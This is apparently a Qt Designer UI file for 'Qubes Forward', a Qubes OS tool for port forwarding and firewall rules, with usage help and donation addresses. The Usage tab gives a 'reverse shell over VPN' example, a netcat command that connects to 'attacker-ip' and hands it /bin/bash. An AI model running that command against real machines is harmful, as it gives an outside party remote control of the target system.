
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <property name="geometry">
   <rect>
    <x>0</x>
    <y>0</y>
    <width>678</width>
    <height>486</height>
   </rect>
  </property>
  <property name="sizePolicy">
   <sizepolicy hsizetype="Expanding" vsizetype="Expanding">
    <horstretch>1</horstretch>
    <verstretch>1</verstretch>
   </sizepolicy>
  </property>
  <property name="windowTitle">
   <string>Qubes Forward</string>
  </property>
  <layout class="QGridLayout" name="gridLayout_2">
   <item row="0" column="1">
    <widget class="QTabWidget" name="tabWidget">
     <property name="sizePolicy">
      <sizepolicy hsizetype="Preferred" vsizetype="Preferred">
       <horstretch>0</horstretch>
       <verstretch>0</verstretch>
      </sizepolicy>
     </property>
     <property name="autoFillBackground">
      <bool>false</bool>
     </property>
     <property name="currentIndex">
      <number>0</number>
     </property>
     <property name="documentMode">
      <bool>false</bool>
     </property>
     <property name="movable">
      <bool>true</bool>
     </property>
     <widget class="QWidget" name="tab">
      <property name="sizePolicy">
       <sizepolicy hsizetype="Preferred" vsizetype="Preferred">
        <horstretch>0</horstretch>
        <verstretch>0</verstretch>
       </sizepolicy>
      </property>
      <attribute name="title">
       <string>Port forwarding</string>
      </attribute>
      <layout class="QGridLayout" name="gridLayout">
       <item row="0" column="0">
        <layout class="QVBoxLayout" name="verticalLayout">
         <item>
          <widget class="QTableWidget" name="tableWidget">
           <property name="sortingEnabled">
            <bool>true</bool>
           </property>
           <attribute name="horizontalHeaderVisible">
            <bool>true</bool>
           </attribute>
           <attribute name="horizontalHeaderCascadingSectionResizes">
            <bool>true</bool>
           </attribute>
           <attribute name="horizontalHeaderMinimumSectionSize">
            <number>10</number>
           </attribute>
           <attribute name="horizontalHeaderDefaultSectionSize">
            <number>100</number>
           </attribute>
           <attribute name="horizontalHeaderHighlightSections">
            <bool>true</bool>
           </attribute>
           <attribute name="horizontalHeaderStretchLastSection">
            <bool>true</bool>
           </attribute>
           <column>
            <property name="text">
             <string/>
            </property>
           </column>
           <column>
            <property name="text">
             <string>From Qube</string>
            </property>
           </column>
           <column>
            <property name="text">
             <string>From Port</string>
            </property>
           </column>
           <column>
            <property name="text">
             <string>To Qube</string>
            </property>
           </column>
           <column>
            <property name="text">
             <string>To Port</string>
            </property>
           </column>
           <column>
            <property name="text">
             <string>pid</string>
            </property>
           </column>
          </widget>
         </item>
         <item>
          <layout class="QHBoxLayout" name="horizontalLayout">
           <item>
            <widget class="QPushButton" name="PortForwarding_Refresh">
             <property name="text">
              <string>Refresh</string>
             </property>
            </widget>
           </item>
           <item>
            <spacer name="horizontalSpacer">
             <property name="orientation">
              <enum>Qt::Horizontal</enum>
             </property>
             <property name="sizeHint" stdset="0">
              <size>
               <width>40</width>
               <height>20</height>
              </size>
             </property>
            </spacer>
           </item>
           <item>
            <widget class="QPushButton" name="PortForwarding_New">
             <property name="text">
              <string>New</string>
             </property>
             <property name="checkable">
              <bool>false</bool>
             </property>
            </widget>
           </item>
          </layout>
         </item>
        </layout>
       </item>
      </layout>
     </widget>
     <widget class="QWidget" name="tab_2">
      <property name="sizePolicy">
       <sizepolicy hsizetype="Preferred" vsizetype="Preferred">
        <horstretch>0</horstretch>
        <verstretch>0</verstretch>
       </sizepolicy>
      </property>
      <attribute name="title">
       <string>Firewall</string>
      </attribute>
      <layout class="QGridLayout" name="gridLayout_3">
       <item row="0" column="0">
        <layout class="QVBoxLayout" name="verticalLayout_2">
         <item>
          <widget class="QTableWidget" name="tableWidget_2">
           <property name="sortingEnabled">
            <bool>true</bool>
           </property>
           <attribute name="horizontalHeaderStretchLastSection">
            <bool>true</bool>
           </attribute>
           <column>
            <property name="text">
             <string/>
            </property>
           </column>
           <column>
            <property name="text">
             <string>Qube</string>
            </property>
           </column>
           <column>
            <property name="text">
             <string>Port</string>
            </property>
           </column>
          </widget>
         </item>
         <item>
          <layout class="QHBoxLayout" name="horizontalLayout_2">
           <item>
            <widget class="QPushButton" name="Firewall_Refresh">
             <property name="text">
              <string>Refresh</string>
             </property>
            </widget>
           </item>
           <item>
            <spacer name="horizontalSpacer_2">
             <property name="orientation">
              <enum>Qt::Horizontal</enum>
             </property>
             <property name="sizeHint" stdset="0">
              <size>
               <width>40</width>
               <height>20</height>
              </size>
             </property>
            </spacer>
           </item>
           <item>
            <widget class="QPushButton" name="Firewall_New">
             <property name="text">
              <string>New</string>
             </property>
            </widget>
           </item>
          </layout>
         </item>
        </layout>
       </item>
      </layout>
     </widget>
     <widget class="QWidget" name="tab_3">
      <attribute name="title">
       <string>About</string>
      </attribute>
      <layout class="QGridLayout" name="gridLayout_4">
       <item row="0" column="0">
        <layout class="QVBoxLayout" name="verticalLayout_3">
         <item>
          <widget class="QTextBrowser" name="textBrowser">
           <property name="html">
            <string>&lt;!DOCTYPE HTML PUBLIC &quot;-//W3C//DTD HTML 4.0//EN&quot; &quot;http://www.w3.org/TR/REC-html40/strict.dtd&quot;&gt;
&lt;html&gt;&lt;head&gt;&lt;meta name=&quot;qrichtext&quot; content=&quot;1&quot; /&gt;&lt;style type=&quot;text/css&quot;&gt;
p, li { white-space: pre-wrap; }
&lt;/style&gt;&lt;/head&gt;&lt;body style=&quot; font-family:'Sans'; font-size:10pt; font-weight:400; font-style:normal;&quot;&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Sources available here: &lt;span style=&quot; font-family:'monospace';&quot;&gt;https://github.com/r3t4k3r/qubes-forward-gui&lt;/span&gt;&lt;/p&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;br /&gt;&lt;/p&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;If you want to support me:&lt;/p&gt;
&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:1; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-weight:600;&quot;&gt;ETH&lt;/span&gt; - &lt;span style=&quot; font-family:'monospace';&quot;&gt;0xa8C72e40D17671695Eaf5D7A5aE5a965CB52F28&lt;/span&gt; &lt;/p&gt;
&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:1; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-weight:600;&quot;&gt;BTC&lt;/span&gt; - &lt;span style=&quot; font-family:'monospace';&quot;&gt;bc1qcqq5vu98g5zjds6e7c4j4af5v0zyg0z4qmlzu3&lt;/span&gt;&lt;/p&gt;
&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:1; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-weight:600;&quot;&gt;USDT TRC20&lt;/span&gt; - &lt;span style=&quot; font-family:'monospace';&quot;&gt;TQa4HEayA7JpjTNCfReQ4zXBDevk9TRYor&lt;/span&gt;&lt;/p&gt;
&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:1; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-weight:600;&quot;&gt;LTC&lt;/span&gt; - &lt;span style=&quot; font-family:'monospace';&quot;&gt;ltc1qwhakmnj7mu9wry4u5lkzujf99g9h825fqp4730&lt;/span&gt;&lt;/p&gt;
&lt;p style=&quot;-qt-paragraph-type:empty; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;br /&gt;&lt;/p&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Made with ❤️ by r3t4k3r&lt;/p&gt;&lt;/body&gt;&lt;/html&gt;</string>
           </property>
          </widget>
         </item>
        </layout>
       </item>
      </layout>
     </widget>
     <widget class="QWidget" name="tab_4">
      <attribute name="title">
       <string>Usage</string>
      </attribute>
      <layout class="QGridLayout" name="gridLayout_5">
       <item row="0" column="0">
        <layout class="QVBoxLayout" name="verticalLayout_4">
         <item>
          <widget class="QTextBrowser" name="textBrowser_2">
           <property name="html">
            <string>&lt;!DOCTYPE HTML PUBLIC &quot;-//W3C//DTD HTML 4.0//EN&quot; &quot;http://www.w3.org/TR/REC-html40/strict.dtd&quot;&gt;
&lt;html&gt;&lt;head&gt;&lt;meta name=&quot;qrichtext&quot; content=&quot;1&quot; /&gt;&lt;style type=&quot;text/css&quot;&gt;
p, li { white-space: pre-wrap; }
&lt;/style&gt;&lt;/head&gt;&lt;body style=&quot; font-family:'Sans'; font-size:10pt; font-weight:400; font-style:normal;&quot;&gt;
&lt;h3 style=&quot; margin-top:14px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:large; font-weight:600;&quot;&gt;Tabs&lt;/span&gt;&lt;/h3&gt;
&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Port Forwarding&lt;/span&gt;&lt;/h4&gt;
&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;You can easy forwarding any TCP port between 2 qubes&lt;/p&gt;
&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Firewall&lt;/span&gt;&lt;/h4&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;By default Qubes OS deny any connections outside the world, for example, if you'll try to open &lt;span style=&quot; font-family:'monospace';&quot;&gt;0.0.0.0:8000&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;sys-net&lt;/span&gt;, you still haven't access. Here you can fix that limitation. &lt;/p&gt;
&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;About&lt;/span&gt;&lt;/h4&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Donation tab &lt;/p&gt;
&lt;h3 style=&quot; margin-top:14px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:large; font-weight:600;&quot;&gt;Some exmples&lt;/span&gt;&lt;/h3&gt;
&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Start web server on personal:8000 and access for it using moble in the same wifi network&lt;/span&gt;&lt;/h4&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Run &lt;span style=&quot; font-family:'monospace';&quot;&gt;python -m http.server 8000&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal&lt;/span&gt; qube. Add port forward rule: &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal:8000 =&amp;gt; sys-net:1337&lt;/span&gt; after that open port in firewall tab &lt;span style=&quot; font-family:'monospace';&quot;&gt;sys-net:1337&lt;/span&gt;. On the mobile device in browser open &lt;span style=&quot; font-family:'monospace';&quot;&gt;http://your-laptop-ip:1337&lt;/span&gt;&lt;/p&gt;
&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Reverse shell over VPN&lt;/span&gt;&lt;/h4&gt;
&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Run &lt;span style=&quot; font-family:'monospace';&quot;&gt;sudo nc -lvp 4444&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal&lt;/span&gt; qube. Add firewall rule &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal:4444&lt;/span&gt;. Access to your shell from target machine &lt;span style=&quot; font-family:'monospace';&quot;&gt;nc attacker-ip 4444 -e /bin/bash&lt;/span&gt;&lt;/p&gt;&lt;/body&gt;&lt;/html&gt;</string>
           </property>
          </widget>
         </item>
        </layout>
       </item>
      </layout>
     </widget>
    </widget>
   </item>
  </layout>
 </widget>
 <resources/>
 <connections/>
</ui>
